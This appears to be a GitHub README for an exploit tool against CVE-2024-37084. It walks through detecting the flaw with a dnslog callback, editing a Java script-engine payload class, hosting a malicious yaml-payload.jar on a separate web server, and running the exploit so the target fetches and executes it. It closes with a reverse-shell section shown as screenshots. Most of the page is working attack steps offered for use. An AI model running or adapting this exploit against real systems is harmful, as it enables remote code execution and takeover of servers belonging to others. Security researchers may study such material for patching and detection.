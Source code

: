 ## <font style="color:rgb(31, 35, 40);">Detect vulnerabilities</font>
<font style="color:rgb(31, 35, 40);">First, Use dnslog to detect whether CVE-2024-37084 vulnerability exists, Then manually check dnslog。Dnslog platform such as：</font>[<font style="color:rgb(31, 35, 40);">http://www.dnslog.cn/</font>](http://www.dnslog.cn/)

```bash
python cve-2024-37084-exp.py -u http://192.168.67.135:7577 -dnslog xxx.dnslog.cn
```

<font style="color:rgb(31, 35, 40);">manually check dnslog</font>

![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045006195-295b0386-b53b-4d16-b4ec-e1663e15dac1.png)

## RCE
you can Execute system commands

**<font style="color:rgb(31, 35, 40);">first:</font>**<font style="color:rgb(31, 35, 40);"> Enter the command you want to execute in 'src\artsploit\AwesomeScriptEngineFactory.java'</font>

![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045045205-8bd31149-a8f2-450c-b0e0-ae0b53501e35.png)

**<font style="color:rgb(31, 35, 40);">after that:</font>**<font style="color:rgb(31, 35, 40);"> Double-click the. py file to generate the yaml-payload.jar file.</font>

![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045069120-ebd129d5-35ec-446f-8895-0f7c91ae72ee.png)

**<font style="color:rgb(31, 35, 40);">after that:</font>**<font style="color:rgb(31, 35, 40);"> </font><font style="color:rgb(31, 35, 40);">Put yaml-payload.jar on the linux server and start a web service with python. Note: Every time you execute a different command, you need to rename yaml-payload.jar, that is, xx.jar that you access, with a different name every time. Otherwise the new command will not take effect.</font>

<font style="color:rgb(31, 35, 40);">The access path is as follows:</font><font style="color:rgb(31, 35, 40);"> </font>[<font style="color:rgb(31, 35, 40);">http://192.168.67.133/yaml-payload.jar</font>](http://192.168.67.133/yaml-payload.jar)<font style="color:rgb(31, 35, 40);">.</font>

**<font style="color:rgb(31, 35, 40);">finally:</font>**<font style="color:rgb(31, 35, 40);"> Execute poc</font>

```bash
cve-2024-37084-exp.py -u http://192.168.67.135:7577 -payload http://192.168.67.133/yaml-payload.jar
```

![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045153651-5a1c5111-087d-4475-966d-43f8960a822d.png)

<font style="color:rgb(31, 35, 40);">Enter the corresponding container to view and successfully execute the command.</font>

![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045170031-9f87c805-c8b8-4f1c-a774-2b7b967b87ed.png)

## <font style="color:rgb(31, 35, 40);">Rebound shell</font>
![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045266424-a516abde-f5c5-4b64-827d-f6503a5e37f0.png)  
 ![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045311998-56575539-911d-45f4-8973-e099dff780a4.png)

![](https://cdn.nlark.com/yuque/0/2024/png/22971806/1729045328661-eb483698-f165-4eb8-8f33-038be72223b0.png)

  
 

